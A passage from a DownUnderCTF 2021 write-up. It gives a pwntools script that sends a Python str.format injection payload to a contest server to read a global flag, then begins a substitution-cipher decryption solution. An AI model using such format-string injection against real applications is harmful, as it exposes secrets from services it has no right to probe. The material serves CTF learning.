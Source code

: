 [floormat.py](challenges//floormat.py)

**Solution**

The function str.format() is used to replace a string we control with an object, which gives us access to object's attributes, one of them is a dictionary of global variables in the init of the object, which contains the flag:
```python
from pwn import *

s = remote('pwn-2021.duc.tf', 31903)
# Ask for a custom format
s.sendline("my l33t format")
# Send Payload
s.sendline("{f.__init__.__globals__[FLAG]}")
s.sendline("F")
# Ask for one of the furnishing (not important which)
s.sendline("flutter")
s.interactive()
```
**Flag**

**`DUCTF{fenomenal_flags_from_funky_formats_ffffff}`**

***

# Cryptography

## Substitution Cipher I
Just a simple substitution cipher to get started...

**Author:** joseph#8210

[substitution-cipher-i.sage](challenges//substitution-cipher-i.sage) | [output.txt](challenges//output_i.txt)

**Solution**

The encryption is known and works letter by letter, thus we can find the encryption of each letter and use that to inverse the ciphertext:
```python
from string import printable

def encrypt(msg, f):
    return [chr(f.substitute(c)) for c in msg]

def decrypt(enc, f):
    subtitution_table = encrypt(printable.encode('utf-8'), f)
    return ''.join(printable[subtitution_table.index(c)] for c in enc)

P.<x> = PolynomialRing(ZZ)
f = 13*x^2 + 3*x + 7


enc = open('./output.txt', 'r').read().strip()
FLAG = decrypt(enc, f)
print(FLAG)
```
**Flag**
